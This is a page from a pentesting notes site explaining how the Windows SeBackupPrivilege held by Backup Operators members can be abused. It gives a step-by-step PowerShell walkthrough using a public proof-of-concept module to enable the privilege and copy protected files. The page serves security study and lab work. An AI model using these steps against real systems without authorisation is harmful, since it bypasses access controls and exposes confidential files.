

repository: amandaguglieri/hackinglife · page: sebackupprivilege/index.html · generator: mkdocs

---
title: SeBackupPrivilege
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
  - SeBackupPrivilege
---
# SeBackupPrivilege

If we are members of the [Backup Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-backupoperators) group, we will be given the `SeBackup` and `SeRestore` privileges. The [SeBackupPrivilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges) allows us to traverse any folder and list the folder contents.

## Abuse SeBackupPrivilege to Read files

In order to exploit `SeBackupPrivilege` you have to:

- Enable the privilege.  
    This alone lets you traverse (`cd` into) any1 directory, local or remote, and list (`dir`, `Get-ChildItem`) its contents.
- If you want to read/copy data out of a "normally forbidden" folder, you have to act as a backup software. The shell `copy` command won't work; you'll need to open the source file manually using `CreateFile` making sure to specify the `FILE_FLAG_BACKUP_SEMANTICS` flag.

We will use this PoC: [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege) . Also available here: [Mytools: SeBackupPrivilege](https://github.com/amandaguglieri/Privescalation/tree/main/tools/SeBackupPrivilege)

```
git clone https://github.com/giuliano108/SeBackupPrivilege.git
# Library fileds are located at /SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug
```

**1.** Open Powershell in the target machine, copy the library binaries and import the required libraries:

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
import-Module .\SeBackupPrivilegeCmdLets.dll
```

**2.** Check privs and group memberships:

```powershell
whoami /priv
whoami /groups
```

**3.** If SeBackupPrivilege is present, double check if it is enabled:

```powershell
Get-SeBackupPrivilege
```

**4.** If disabled, enable it (and check it back):

```powershell
Set-SeBackupPrivilege
Get-SeBackupPrivilege
whoami /priv
```

**5.** Now the privilege is  enabled and it can be now leveraged to copy any protected file (not to read it).

```powershell-session
dir C:\Confidential\
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
cat 'C:\Confidential\2021 Contract.txt'
```
